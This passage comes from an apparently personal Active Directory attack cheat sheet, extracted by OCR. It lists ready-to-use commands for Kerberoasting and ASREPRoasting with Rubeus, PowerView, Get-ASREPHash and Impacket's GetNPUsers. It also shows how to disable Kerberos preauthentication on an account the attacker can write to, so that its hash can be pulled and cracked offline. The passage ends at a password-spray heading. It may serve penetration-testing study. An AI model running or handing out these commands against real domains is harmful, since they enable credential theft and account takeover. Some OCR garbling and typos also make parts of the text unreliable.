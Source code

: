 Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /creduser:<username> /credpassword:<password>

### ASREPRoast

*WUT IS DIS?:*

If a domain user account do not require kerberos preauthentication, we can request a valid TGT for this account without even having domain credentials, extract the encrypted blob and bruteforce it offline.

- PowerView: Get-DomainUser -PreauthNotRequired -Verbose
- AD Module: Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth

Forcefully Disable Kerberos Preauth on an account i have Write Permissions or more! Check for interesting permissions on accounts:

**Hint:** We add a filter e.g. RDPUsers to get "User Accounts" not Machine Accounts, because Machine Account hashes are not crackable!

PowerView:

Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}

Disable Kerberos Preauth:

Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose

Check if the value changed:

Get-DomainUser -PreauthNotRequired -Verbose

- And finally execute the attack using the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) tool.
- #Get a spesific Accounts hash:
- Get-ASREPHash -UserName <UserName> -Verbose
- #Get any ASREPRoastable Users hashes:

Invoke-ASREPRoast -Verbose

- Using Rubeus:
- #Trying the attack for all domain users
- Rubeus.exe asreproast /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
- #ASREPRoast spesific user
- Rubeus.exe asreproast /user:<username> /format:<hashcat|john>

> /domain:<DomainName> /outfile:<filename>
> 
- #ASREPRoast users of a spesific OU (Organization Unit)

Rubeus.exe asreproast /ou:<OUName> /format:<hashcat|john> /domain:<DomainName>

/outfile:<filename>

- Using Impacket:
- #Trying the attack for the specified users on the file python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>

### Password Spray Attack

